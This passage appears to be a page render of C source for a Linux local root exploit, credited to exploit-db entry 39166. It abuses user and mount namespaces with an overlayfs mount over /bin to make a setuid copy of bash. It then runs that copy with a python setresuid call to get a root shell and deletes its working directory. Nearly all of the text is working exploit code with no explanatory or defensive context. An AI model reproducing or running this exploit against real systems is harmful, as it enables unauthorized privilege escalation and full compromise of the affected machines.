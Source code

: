  ```code 
    if (mount("overlay", "/tmp/haxhax/o", "overlay", MS_MGC_VAL, "lowerdir=/bin,upperdir=/tmp/haxhax/u,workdir=/tmp/haxhax/w") != 0) {
	fprintf(stderr,"mount failed..\n");
    }

    chmod("/tmp/haxhax/w/work",0777);
    chdir("/tmp/haxhax/o");
    chmod("bash",04755);
    chdir("/");
    umount("/tmp/haxhax/o");
    return 0;
}

int
main(int argc, char **argv)
{
    int status;
    pid_t wrapper, init;
    int clone_flags = CLONE_NEWNS | SIGCHLD;
    struct stat s;

    if((wrapper = fork()) == 0) {
        if(unshare(CLONE_NEWUSER) != 0)
            fprintf(stderr, "failed to create new user namespace\n");

        if((init = fork()) == 0) {
            pid_t pid =
                clone(child_exec, child_stack + (1024*1024), clone_flags, NULL);
            if(pid < 0) {
                fprintf(stderr, "failed to create new mount namespace\n");
                exit(-1);
            }

            waitpid(pid, &status, 0);

        }

        waitpid(init, &status, 0);
        return 0;
    }

    usleep(300000);

    wait(NULL);

    stat("/tmp/haxhax/u/bash",&s);

    if(s.st_mode == 0x89ed)
        execl("/tmp/haxhax/u/bash","bash","-p","-c","rm -rf /tmp/haxhax;python -c \"import os;os.setresuid(0,0,0);os.execl('/bin/bash','bash');\"",NULL);

    fprintf(stderr,"couldn't create suid :(\n");
    return -1;
}

source [exploit-db](https://www.exploit-db.com/exploits/39166)
```
